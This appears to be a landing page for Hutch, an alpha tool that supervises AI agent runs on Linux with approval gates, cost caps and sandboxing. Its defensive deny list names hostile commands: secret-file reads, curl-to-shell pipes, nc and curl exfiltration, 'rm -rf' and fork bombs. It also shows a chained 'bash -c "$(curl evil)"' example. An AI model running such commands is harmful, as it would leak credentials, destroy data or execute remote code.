



Inference
The offline mock needs no credentials. Adapters cover OpenAI, Anthropic, OpenAI-compatible and Ollama endpoints; live compatibility depends on the endpoint you configure.
Ongoing AI tasks on a Linux machine you control, with visible run history, supervised actions and a provider choice you make.
v0.1.0 Python ≥ 3.11 Linux first MIT licensed No telemetry
A captured hutch screen using the deterministic mock model and seeded demo data. It shows the transcript and an approval wait; the screen is illustrative and no external action is running.

A small set of public user reports informed acceptance checks. Each is one reported experience, not evidence of prevalence; links and reproduction limits are recorded in the local research notes.
| # | Source | Reported failure | hutch answer | Evidence |
|---|---|---|---|---|
| 01 | usage controls | The bill that arrives after the loop won’t stopLong contexts and retry loops can increase usage. | max_steps 24 · timeout 900s · daily_token_cap 200k |
fixture-checked |
| 02 | OpenClaw #138499 | The scheduled run that quietly never happenedOne report of a timed-out task staying marked as running. | stopping until process exits · ownership fenced |
reported only |
| 03 | Open WebUI #30055 | The approval hidden behind a phone overlayA full-screen mobile overlay hid an approval that had already arrived. | approvals reachable from any view |
fixture-checked |
| 04 | Open WebUI #31656 | Phone focus that opens the keyboard unexpectedlyThe report describes a menu opening a text field and the keyboard. | drawer focuses links, not inputs |
fixture-checked |
| 05 | data ownership | Local agents with zero defaults and messy memoryHistory, memory facts, artifacts and credentials need different retention rules. | SQLite + JSONL on your disk · inspect, back up, delete |
documented limit |
A product preview of the local run loop. Demo images and scripted controls are labelled; live providers and external runtimes are not implied.

A named bot accepts a task from Studio or a schedule. Conversation history and run records persist across restarts; the current workspace model is still per run.
Risky or outward actions pause behind an approval gate with a countdown. You can answer from the dashboard or the CLI; unanswered is denied.

Inspect the run status, tool results and ordered event transcript. The assistant’s summary is useful context; Hutch records reported usage separately from estimates.
281 characters · inside the run workspace · medium risk · fail-closed at 10:00
In the real product, an approval is a server-side record: two browsers can race on it and the app reconciles to whatever the daemon decided.
Model and tool choices determine where data moves. Hutch keeps its control state on the host; prompts go to the configured model endpoint, and network tools contact their own destinations.
The offline mock needs no credentials. Adapters cover OpenAI, Anthropic, OpenAI-compatible and Ollama endpoints; live compatibility depends on the endpoint you configure.
Runs are supervised on Linux. Bubblewrap isolation is a namespace sandbox, not a virtual machine, and stays off until an operator enables it.
SQLite state and run transcripts live under ~/.local/state/hutch. Deleting the host state removes local history, so back it up.
One elected local supervisor runs schedules. The host must be awake and the service running; sleep and disconnection are visible limits.
The phone layout is responsive, but remote phone control and browser handoff are unavailable. Supervision is not remote access.
ChatGPT sign-in is not implemented. OpenCode Go key connections are experimental and limited by their published workload terms.
The local supervisor owns lifecycle, policy and records. A run gets a workspace, may pause for approval, and talks to whichever model endpoint you configured. Conceptual layout, not measured traffic.
Hutch checks shell requests before execution, records actions and approvals, and keeps a run visibly stopping until its owned process has exited.
# hard-denied before execution, always $ sudo / su / doas / pkexec privilege escalation $ rm -rf / ~ $HOME .. wipes & escapes $ cat ~/.ssh/* .env ~/.aws secret paths $ curl ... | sh pipe to interpreter $ cmd | curl / nc / ssh exfiltration channels $ curl -T / --post-data upload flags on fetchers $ dd / mkfs / fork bombs / reboot system destruction
# chained commands are split, judged per segment $ git status && bash -c "$(curl evil)" segment 1: git status allowed segment 2: bash -c "$(...)" denied wrappers & substitutions are read through; an allow on the outside can never launder what is nested inside. verdict: worst wins blocked
# per-bot risk tier refines only the ask zone readonly no writes, no mutation — even by rule supervised the default: medium-risk actions ask you trusted runs without asking… …except outward sends, which always ask # hard-denied classes stay denied in every tier
Illustrative workflows can be exercised with the deterministic mock. These cards do not claim a hosted model or external service is configured.
Give a bot a read-only task in a disposable workspace, inspect the transcript and keep or discard the result. The example does not modify a real repository.
task: review a disposable project copy
inspect: ordered run events and tool results
result: keep or discard the run workspaceA configured local schedule can start a run while Hutch’s supervisor is running. A sleeping or disconnected host cannot execute work.
schedule: configured local time
requires: awake host + running supervisor
missed work: shown for operator reviewWhen a governed action needs approval, the run pauses with the request and its status visible for review. This is not a claim that a particular folder workflow is preconfigured.
action request: visible to operator
decision: allow once or deny
run: stays stopping until process exitsHutch is an early alpha and its source repository is private. There is no public package or release, so visitors cannot install it from this page. The demo above is a captured interface; it does not grant access to a running service.
The questions people actually ask before trusting an agent with their machine.
The deterministic mock needs no model account. A real local model or hosted endpoint requires a configured compatible route; the providers and models available on your machine can differ, and live paid-provider checks have not been performed for this preview.
Hutch stores its control state locally. A hosted model receives the prompt and context Hutch sends to it; network tools connect to their own destinations. A local model can still use online tools. Review the selected connection and tools before running a task.
Nothing runs while the machine is off. With the local supervisor running again, configured schedules detect missed windows and either coalesce them into one catch-up run or record a skip, according to the bot’s policy.
ChatGPT sign-in and consumer chat-plan OAuth are not implemented. Hutch accepts explicitly configured provider connections; OpenCode Go is experimental and its published terms describe coding-agent use. No subscription is silently upgraded or used as a fallback.
Hutch estimates tokens and priced cost, reserves those estimates before calls, and stops admitting more calls when configured limits would be crossed. The estimate can differ from the provider’s invoice; use that provider’s billing controls for an external spending limit. Uncertain calls remain held until reconciled.
Bubblewrap isolation is available only on Linux and must be enabled; it is not a virtual machine. Approval policy and transcripts provide operator control but do not guarantee safe decisions. Legacy bots may still have isolation disabled. Read the support boundaries above before use.
Hutch is MIT-licensed, but source and downloads are private today. The preview shows local control flows, not a hosted service or a supported remote supervisor.